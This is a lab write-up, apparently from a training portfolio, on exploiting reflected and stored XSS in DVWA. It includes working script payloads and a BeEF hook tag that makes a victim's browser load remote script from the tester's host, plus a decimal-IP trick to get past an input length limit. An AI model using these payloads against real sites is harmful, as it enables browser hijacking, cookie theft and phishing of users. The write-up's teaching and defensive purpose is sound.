




# Cross-Site Scripting (XSS) Exploitation on DVWA

## Overview
- **Focus:** Client-Side Attack Vectors
- **Target:** DVWA XSS Modules (Reflected & Stored)
- **Objective:** Browser Exploitation & Session Hijacking
- **Status:** ✅ COMPLETED - Major Success with Advanced Weaponization

## Executive Summary

Successfully identified and exploited both Reflected and Stored XSS vulnerabilities in DVWA, advancing from basic proof-of-concept to weaponized browser exploitation using the Browser Exploitation Framework (BeEF). This engagement demonstrated the progression from simple alert-based XSS to sophisticated client-side attacks capable of full session hijacking and persistent browser control.

## Environment Configuration

| Component | Details |
|-----------|---------|
| **Target System** | Metasploitable 2 (192.168.56.101) |
| **Attack Platform** | Kali Linux (192.168.56.102) |
| **Target Application** | DVWA v1.10 |
| **Security Level** | LOW (Learning Environment) |
| **Exploitation Framework** | BeEF (Browser Exploitation Framework) |

## Vulnerability Assessment

### 1. Reflected XSS Analysis

**Location:** `/dvwa/vulnerabilities/xss_r/`
**Risk Level:** HIGH (CVSS 6.1 - Medium/High)

#### Initial Discovery
The reflected XSS module presents a simple name input field that directly outputs user input without proper sanitization or encoding.

**Proof of Concept Payload:**
```javascript
<script>alert('XSS Test - Pwned!');</script>
``` 

.png)


*DVWA XSS Reflected vulnerability testing interface*

#### Impact Analysis
- **Immediate Execution:** Scripts execute immediately upon submission
- **URL-Based Delivery:** Malicious payloads can be embedded in URLs
- **Social Engineering Vector:** Crafted URLs can be distributed to victims

### 2. Stored XSS Analysis

**Location:** `/dvwa/vulnerabilities/xss_s/`
**Risk Level:** CRITICAL (CVSS 7.2 - High)

#### Vulnerability Confirmation
The stored XSS module features a guestbook with persistent storage of unfiltered user input.

**Multiple Payload Vectors Tested:**

```javascript
// Script tag injection
<script>alert('You are Pwned!!!!');</script>

// Image error handler


// SVG onload event
<svg onload=alert('XSS_High')>
```

**Evidence:** 

.png)
*DVWA Stored XSS guestbook interface*


*Payload input demonstration in message field*


*Successful stored XSS payloads executing in guestbook*

#### Critical Advantages
- **Persistence:** Payloads execute for every visitor
- **Wider Impact:** Affects multiple users automatically
- **Stealth Factor:** No suspicious URLs required

## Advanced Weaponization: BeEF Integration

### Framework Setup

**BeEF Initialization:**
```bash
cd /usr/share/beef-xss/
sudo ./beef
```

**Control Panel Access:** `http://127.0.0.1:3000/ui/panel`
**Credentials:** beef/beef

### Reflected XSS Weaponization - SUCCESS

**Hook Payload:**
```javascript
<script src="http://192.168.56.102:3000/hook.js"></script>
```

**Execution Flow:**
1. Malicious URL crafted with BeEF hook
2. Victim clicks/visits the URL
3. Browser automatically loads BeEF hook script
4. Browser becomes "zombified" under attacker control

**Evidence:** 


*Successful browser hooking with BeEF framework showing active hooked session*

### Attack Capabilities Demonstrated

Once browser is hooked, the following advanced attacks become possible:

#### Session Hijacking
- **Cookie Theft:** Extract PHPSESSID and authentication tokens
- **Session Impersonation:** Login as victim without credentials
- **Persistent Access:** Maintain control across page navigation

#### Social Engineering Attacks
- **Fake Login Prompts:** Deploy convincing credential harvesting dialogs
- **Pretty Theft:** Create realistic authentication overlays
- **Notification Bar Phishing:** Mimic browser security warnings

#### Advanced Browser Exploitation
- **Internal Network Scanning:** Probe victim's internal network
- **Silent Redirections:** Navigate to attacker-controlled sites
- **Information Gathering:** Extract browser details, plugins, network info

### Stored XSS Weaponization - Challenge Encountered

**Attempted Payload:**
```javascript
<script src="http://192.168.56.102:3000/hook.js"></script>
```

**Issue Identified:** Character limit restriction (50 characters) on message field
**Payload Length:** 57 characters
**Result:** Truncated payload, failed execution

#### Evasion Strategy Developed

**Solution:** IP address conversion to decimal format
- **Standard IP:** 192.168.56.102
- **Decimal Format:** 3232239958
- **Optimized Payload:** `<script src=//3232239958:3000/hook.js></script>`
- **Character Count:** 45 characters (under limit)

This demonstrates real-world constraint bypass techniques essential for professional penetration testing.

## Technical Findings Summary

### Vulnerability Scoring

| Vulnerability Type | CVSS Base Score | Exploitability | Impact |
|-------------------|-----------------|----------------|--------|
| Reflected XSS | 6.1 (Medium-High) | High | Medium |
| Stored XSS | 7.2 (High) | High | High |

### Exploitation Success Rate

| Test Vector | Success Rate | Weaponization |
|-------------|-------------|---------------|
| Reflected XSS | 100% | ✅ Full BeEF Integration |
| Stored XSS (Basic) | 100% | ❌ Character Limit Constraint |
| Stored XSS (Optimized) | Pending | 🔄 Solution Identified |

## Defensive Recommendations

### Input Validation
1. **Server-side sanitization** of all user inputs
2. **Whitelist approach** for allowed characters and tags
3. **Length restrictions** with proper error handling

### Output Encoding
1. **HTML entity encoding** for displayed content
2. **Context-aware encoding** (HTML, JavaScript, CSS, URL)
3. **Template engine** with automatic escaping

### Security Headers
1. **Content Security Policy (CSP)** implementation
2. **X-XSS-Protection** header configuration
3. **HttpOnly cookie** flags for session management

### Advanced Protections
1. **Web Application Firewall (WAF)** deployment
2. **Regular security assessments** and code reviews
3. **User education** on social engineering threats

## Skills Developed

- ✅ XSS vulnerability identification and classification
- ✅ Multiple payload construction techniques
- ✅ Browser exploitation framework operation
- ✅ Session hijacking methodology
- ✅ Evasion technique development
- ✅ Real-world constraint analysis

## Exploitation Results

- **Vulnerabilities Discovered:** 2 (Reflected + Stored XSS)
- **Successful Exploits:** 2/2 basic payloads, 1/2 weaponized
- **Browser Sessions Compromised:** 1 (full control achieved)
- **Frameworks Integrated:** BeEF (Browser Exploitation Framework)
- **Evasion Techniques Developed:** 1 (character limit bypass)


## Educational Disclaimer

This documentation represents controlled security testing conducted in an isolated laboratory environment using intentionally vulnerable applications designed for educational purposes. All techniques demonstrated are for authorized security research and professional penetration testing only.
